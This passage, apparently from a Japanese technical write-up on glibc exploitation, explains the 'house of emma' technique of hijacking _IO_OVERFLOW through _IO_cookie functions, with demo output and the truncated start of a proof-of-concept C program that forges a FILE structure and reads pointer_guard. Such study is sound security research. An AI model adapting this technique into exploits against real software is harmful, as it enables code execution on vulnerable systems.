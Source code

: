 ```
$ ./io_list_all 
Start of main()
libc_base = 0x7fb8274ae000
IO_list_all = 0x7fb82769a5a0
vtable = 0x7fb82769b4a0
fake_io_struct = 0x555a5e00d6b0
End of main()
In target1(): arg1=0x555a5e00d6b0
```

#### パターン2(\_IO_cookie_\[read|write|seek|close]の呼び出し)
house of emmaの1パート

この方法ではパターン1が動かなかった2.31(GLIBC 2.31-0ubuntu9.7)でも動くことが確認できた。
自分の環境の2.35では\_IO_cookie_jumps近辺にvtableを設定するとvtable checkで検出されるようになっていた。(コードレベルで追えていない)


\_IO_OVERFLOWが指す関数ポインタを既存の関数\_IO_cookie_\[read|write|seek|close]に向ける。
これらの\_IO_cookie_xxx関数では、さらに\_IO_cookie_file構造体の関数ポインタのメンバを呼ぶことができて、これらはvtableからの呼び出しではないので、heap上に設置できる。
また関数ポインタは前述のPTR_DEMANGLEでデコードされるので、あらかじめエンコードされた値を格納しておく。

以下の擬似exploitはexit()時のIO_OVERFLOWをトリガーにしているので、pointer_guardを改ざんすると、前述の\__exit_funcsのDEMANGLEが失敗してしまうので、pointer_guardをリークした場合を想定している。(他のメンバをいじることでpointer_guardの改ざんでも発火は一応できるが)

exit時の\_IO_OVERFLOWを発火のトリガーにしなければこの問題は回避できる。
(現にhouse of emmaの解説記事ではassert()をトリガーにしている)

```c
#include <stdio.h>
#include <stdlib.h>
// differ in each environment
unsigned long off_puts =         0x7ffff7e4a450 - 0x7ffff7dc6000;
unsigned long off_IO_list_all =  0x7ffff7fb35a0 - 0x7ffff7dc6000;
unsigned long off_IO_cookie_jumps = 0x7ffff7faea20 - 0x7ffff7dc6000;
unsigned long off_tls          = 0x7ffff7fb9540 - 0x7ffff7dc6000;

#define ENC_FUNC(ptr,pg) ((ptr^pg)<<0x11|(ptr^pg)>>(0x40-0x11))

void target1(unsigned long arg1)
{
    printf("In target1(): arg1=0x%lx\n", arg1);
    return;
}

void main()
{
    printf("Start of main()\n");

    void* libc_base = &puts - (unsigned long)off_puts;
    printf("libc_base = %p\n",libc_base);
    void* IO_list_all = libc_base + off_IO_list_all;
    printf("IO_list_all = %p\n",IO_list_all);
    void* IO_cookie_jumps = libc_base + off_IO_cookie_jumps;
    printf("IO_cookie_jumps = %p\n",IO_cookie_jumps);
    void* tls = libc_base + off_tls;
    printf("tls = %p\n",tls);

    // prepare for exploit
    void* fake_io_struct = malloc(0x400);
    unsigned long pointer_guard = *(unsigned long*)(tls+0x30);

    *(unsigned long*)(fake_io_struct+0x20) = 0;             // _IO_write_base
    *(unsigned long*)(fake_io_struct+0x28) = 1;             // _IO_write_end
    *(int*)(fake_io_struct+0xc0) = 0;                       // _mode
    *(unsigned long*)(fake_io_struct+0xe0) = 0xdeadbeef;    // _cookie
```